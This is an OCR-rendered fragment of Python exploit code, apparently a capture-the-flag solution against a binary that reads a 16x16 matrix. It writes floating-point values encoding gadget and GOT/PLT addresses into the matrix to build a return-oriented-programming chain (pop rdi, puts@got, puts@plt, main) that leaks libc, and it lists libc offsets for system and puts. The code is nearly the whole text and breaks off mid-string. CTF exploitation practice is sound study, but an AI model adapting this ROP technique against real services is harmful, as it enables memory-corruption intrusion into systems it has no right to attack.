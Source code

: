 ```
io = zio(target, timeout = 9999, print_read = r_m, print_write = w_m, env={"LD_PRELOAD":libc_file_path})
return io
def pwn_with_array(io, val_list):
arrays = [
1,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,
0,1,0,0,0,0,0,0,0,0,0,0,0,0,0,0,
0,0,1,0,0,0,0,0,0,0,0,0,0,0,0,0,
0,0,0,1,0,0,0,0,0,0,0,0,0,0,0,0,
0,0,0,0,1,0,0,0,0,0,0,0,0,0,0,0,
0,0,0,0,0,1,0,0,0,0,0,0,0,0,0,0,
0,0,0,0,0,0,1,0,0,0,0,0,0,0,0,0,
0,0,0,0,0,0,0,1,0,0,0,0,0,0,0,0,
0,0,0,0,0,0,0,0,1,0,0,0,0,0,0,0,
0,0,0,0,0,0,0,0,0,1,0,0,0,0,0,0,
0,0,0,0,0,0,0,0,0,0,1,0,0,0,0,0,
0,0,0,0,0,0,0,0,0,0,0,1,0,0,0,0,
0,0,0,0,0,0,0,0,0,0,0,0,1,0,0,0,
0,0,0,0,0,0,0,0,0,0,0,0,0,1,0,0, 
#1,2,3,0xcd,0xee,0xff,0x5,6,7,8,9,2,2,2,2,2,
0,0,0,0,0,0,0,0,0,0,0,0,0,0,1,0,
0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,1]
for i in range(len(val_list)):
arrays[14 * 16 + 5 + i] = val_list[i]
io.read_until(" : ")
io.writeline(str(16))
io.read_until(" : ")
io.writeline(str(16))
io.read_until(" :")
payload = ""
for item in arrays:
payload += str(item) + ","
io.writeline(payload[:-1])
io.read_until("This is your result")
io.read_until("0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,1,nn")
return 
def pwn(io):
#offset info
if is_local:
#local
offset_puts                = 0x6f690
offset_system = 0x45390
else:
#remote
offset_system = 0x45800
offset_puts                = 0x70a90
p_rdi_ret_val = -2.07582817451185170402836984431807e-317
puts_got_val = -3.11447916067854977526319411883167e-317
puts_plt_val = -2.07357375296987809604729216091621e-317
#puts_got -8
puts_got_8_val = -3.11447520815338304529084070628132e-317
main_addr_val = -2.07424074159176377888193052878658e-317
show_info_val = -2.07415428010374156073669962924783e-317
get_buff_val = -2.07396357076444683957064747369378e-317
val_list = []
val_list.append(p_rdi_ret_val)
val_list.append(puts_got_val)
val_list.append(puts_plt_val)
val_list.append(main_addr_val)
"""
p_rdi_ret = 0x0000000000401c33
puts_plt                   = 0x0000000000400a60
p_rsi_r15_ret = 0x0000000000401c31
```